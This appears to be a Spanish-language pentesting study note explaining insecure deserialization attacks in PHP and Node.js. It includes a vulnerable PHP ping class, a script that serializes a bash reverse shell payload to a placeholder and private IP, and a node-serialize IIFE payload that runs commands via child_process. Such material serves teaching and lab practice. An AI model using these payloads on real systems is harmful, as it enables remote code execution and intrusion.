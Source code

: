 -----
- Tags: #ataques #teoria #practica #basico 
-----

# ¿ Que es la **serialización** ? 

### La **serialización** es el proceso de cvonvertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La **deserialización** es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. 

----

# ¿ Que es un **ataque de deserialización** ?

### Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programacón orientada a objetos (**POO**)

### Estos ataques ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a [[RCE - (Remote Command Execution)]] en el servidor. 

### Los **ataques de deserialización** pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras como: 

- ### Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso. 
- ### Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
- ### Realizar un ataque de **man-in-the-middle** para interceptar y modificar el objeto serializado antes de que llegue a la aplicación. 

---- 

# Evitar estos ataques 

### Para evitar estos tipos de ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserializaciópn seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para correfir posibles vulnerabilidades. 

----

# Explotación 

### Estos ataques se pueden aconteser en muchos escenarios, por ejemplo, en aplicaciones web que tratan con NodeJS o PHP, por ejemplo, si detectaramos que la data interceptada con [[Burpsuite]] viaja de una manera serializada, podriamos comenzar a pensar en un **php deserilialisation attack**. 

### La data interceptara por ejemplo se ve así:  `obj=O:8:"pingTest":1:{s:9:"ipAddress";s:9:"284781274";}&ip=284781274`

### Y sabemos que por detras el código es el sig: 

```php
<?php
class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";
	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();
	}
	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }
}
if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}
$pingTest->validate();
```

### Donde, tras analizar el código, podriamos pensar en que si lograramos hacer que el valor de ipAddress sea un comando de bash a la par que isValid sea True, estariamos con la posibilidad de inyectar comandos en el sistema a traves de un **Deserialization attack**. 

### Podriamos crear un script de php imitando la funcionalidad del código que pudimos ver, para de esta manera recrear un **nuevo** objeto **serializado**.

```php
<?php 

class pingTest {
	public $ipadress = "; bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'";
	public $isValid = True; 
	public $output = ""; 
}

echo serialize(new pingTest);
```

### Logrando así, obtener un obj serializado válido el cual nos envía una reverse shell, teniendo así, posiblidad de [[RCE - (Remote Command Execution)]]. 

##### `O:8:"pingTest":3:{s:9:"ipAddress";s:53:"; bash -c 'bash -i >& /dev/tcp/192.168.1.38/443 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}`

----
#  Nodejs Deserialization attack (unserialize)
### Ahora, en un escenario de un **node deserialization attack** podriamos hacer uso del concepto **IIFE (Inmediatly Invoked Function Exression)**, el cual consiste en la declaración de funciones que son ejecutadas en el mismo momento de la declaración, de manera que, si capturaramos por ejemplo, una cookie la cual es `eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=`, al decodearle veriamos la sig data serializada: 

### `{"username":"dobliuw","country":"india","city":"bangalore"}`, mientras que en la web vemos un "Hello dobliuw", podemos deducir que si cambiamos esta data serializada, para que en lugar de donde dice "dobliuw" diga otra cosa que ingresemos nosotros, podrimaos intentar hacer uso de un **IIFE** para que a la hora de que se deserialize dicha data, se ejecute una instrucción de [[RCE - (Remote Command Execution)]]. 

```javascript
const serialize = require('node-serialize'); 

const payload = {
username: function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)},
country: "Argentina",
city: "Buenos Aires"
}

console.log(serialize.serialize(payload))

```

### Esta función, que se encarga de serializar el payload, nos arrojaria lo sig: 

### `{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}","country":"Argentina","city":"Buenos Aires"}`

### De manera que nuestra función `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}` devera ser invocada indemediatamente agregado `()` alfinal de esta, 

### **IIFE**: `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}()` 

### De esta manera, cuando el servidor deserialize la data, gracias a nuestra **IIFE**, se ejecutara el comando del lado del servidor, dejandonos así posiblidad de [[RCE - (Remote Command Execution)]]. 
